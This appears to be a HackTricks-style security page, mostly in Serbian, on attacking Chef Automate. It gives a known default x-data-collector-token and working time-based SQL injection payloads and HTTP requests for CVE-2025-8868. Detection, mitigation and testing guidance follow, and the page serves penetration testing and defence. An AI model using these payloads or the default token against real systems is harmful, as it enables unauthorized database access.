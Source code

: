 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Pregled

Ova stranica sakuplja praktične tehnike za enumeraciju i napade na Chef Automate instance, sa naglaskom na:
- Otkrivanje gRPC-Gateway-backed REST endpointa i zaključivanje shema zahteva putem odgovora o validaciji/greškama
- Zloupotreba headera x-data-collector-token za autentifikaciju kada su prisutne podrazumevane vrednosti
- Time-based blind SQL injection in the Compliance API (CVE-2025-8868) koji utiče na filters[].type polje u /api/v0/compliance/profiles/search

> Napomena: Backend odgovori koji uključuju header grpc-metadata-content-type: application/grpc obično ukazuju na to da gRPC-Gateway povezuje REST pozive sa gRPC servisima.

## Recon: Architecture and Fingerprints

- Front-end: Često Angular. Statički bundle-i mogu nagovestiti REST putanje (npr. /api/v0/...)
- API transport: REST ka gRPC preko gRPC-Gateway
- Odgovori mogu uključivati grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
- Tela grešaka koja počinju sa pq: snažno ukazuju na PostgreSQL sa Go pq driverom
- Zanimljivi Compliance endpointi (zahteva autentifikaciju):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate izlaže data collector koji autentifikuje zahteve putem posebnog headera:

- Header: x-data-collector-token
- Rizik: Neka okruženja mogu zadržati podrazumevani token koji daje pristup zaštićenim API rutama. Poznat podrazumevani token viđen u prirodi:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

Ako postoji, ovaj token se može iskoristiti za pozivanje Compliance API endpointa koji su inače zaštićeni autentifikacijom. Uvek pokušajte rotirati/onemogućiti podrazumevane vrednosti tokom hardeninga.

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpointi često leak-uju korisne greške validacije koje opisuju očekivani model zahteva.

Za /api/v0/compliance/profiles/search, backend očekuje body sa nizom filters, gde je svaki element objekat sa:

- type: string (identifikator polja filtera)
- values: array of strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
Neispravan JSON ili pogrešni tipovi polja obično izazivaju 4xx/5xx odgovore sa nagoveštajima, a zaglavlja ukazuju na ponašanje gRPC-Gateway. Iskoristite to da mapirate polja i lokalizujete površine za injekciju.

## Compliance API SQL Injection (CVE-2025-8868)

- Pogođeni endpoint: POST /api/v0/compliance/profiles/search
- Tačka injekcije: filters[].type
- Tip ranjivosti: time-based blind SQL injection in PostgreSQL
- Uzrok: Nedostatak pravilne parametrizacije/whitelistinga pri interpolaciji polja type u dinamički SQL fragment (verovatno korišćen za konstrukciju identifikatora/WHERE klauza). Namerno konstruisane vrednosti u type se evaluiraju od strane PostgreSQL.

Funkcionalan time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Napomene tehnike:
- Zatvorite originalni string jednostrukim apostrofom (')
- Konkatenirajte podupit koji poziva pg_sleep(N)
- Ponovo uđite u kontekst stringa preko || tako da konačni SQL ostane sintaksički ispravan bez obzira gde je type ugrađen

### Dokaz pomoću diferencijalne latencije

Pošaljite uparene zahteve i uporedite vreme odgovora da biste potvrdili izvršavanje na strani servera:

- N = 1 sekunda
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 sekundi
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- Vremena odziva se povećavaju proporcionalno pg_sleep(N)
- HTTP 500 odgovori mogu uključivati pq: detalje tokom ispitivanja, potvrđujući putanje izvršavanja SQL-a

> Savet: Koristite alat za merenje vremena (npr. više pokušaja sa statističkim poređenjem) da smanjite šum i lažno pozitivne rezultate.

### Impact

Autentifikovani korisnici — ili neautentifikovani akteri koji zloupotrebljavaju podrazumevani x-data-collector-token — mogu izvršavati proizvoljan SQL unutar PostgreSQL konteksta Chef Automate‑a, ugrožavajući poverljivost i integritet profila usklađenosti, konfiguracije i telemetrije.

### Affected versions / Fix

- CVE: CVE-2025-8868
- Preporuka za nadogradnju: Chef Automate 4.13.295 ili noviji (Linux x86) prema obaveštenjima dobavljača

## Detection and Forensics

- API layer:
- Pratite 500 odgovore na /api/v0/compliance/profiles/search gde filters[].type sadrži navodnike ('), operator konkatenacije (||), ili reference na funkcije kao pg_sleep
- Pregledajte zaglavlja odgovora za grpc-metadata-content-type kako biste identifikovali gRPC-Gateway tokove
- Database layer (PostgreSQL):
- Auditujte pozive pg_sleep i greške neispravnih identifikatora (često prikazane sa prefiksima pq: koji dolaze iz Go pq drajvera)
- Authentication:
- Zapisujte i postavljajte upozorenja za upotrebu x-data-collector-token, naročito poznatih podrazumevanih vrednosti, preko API ruta

## Mitigations and Hardening

- Immediate:
- Zamenite/onemogućite podrazumevane data collector tokene
- Ograničite pristup do data collector endpoint‑a; zahtevajte jake, jedinstvene tokene
- Code-level:
- Parametrišite upite; nikada ne konkatenirajte SQL fragmente kao stringove
- Strogo izričito dozvolite samo prihvatljive vrednosti polja type na serveru (enum)
- Izbegavajte dinamičko sklapanje SQL‑a za identifikatore/klauzule; ako je dinamičko ponašanje neophodno, koristite bezbedno citiranje identifikatora i eksplicitne bele liste

## Practical Testing Checklist

- Proverite da li se x-data-collector-token prihvata i da li poznati podrazumevani radi
- Mapirajte šemu zahteva Compliance API‑ja izazivanjem grešaka validacije i čitanjem poruka o grešci/zaglavlja
- Testirajte za SQLi u manje očiglednim „identifier-like“ poljima (npr. filters[].type), ne samo u nizovima vrednosti ili top‑level tekstualnim poljima
- Koristite tehnike zasnovane na vremenu uz konkatenaciju da biste održali SQL sintaksno važećim u različitim kontekstima

## References

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
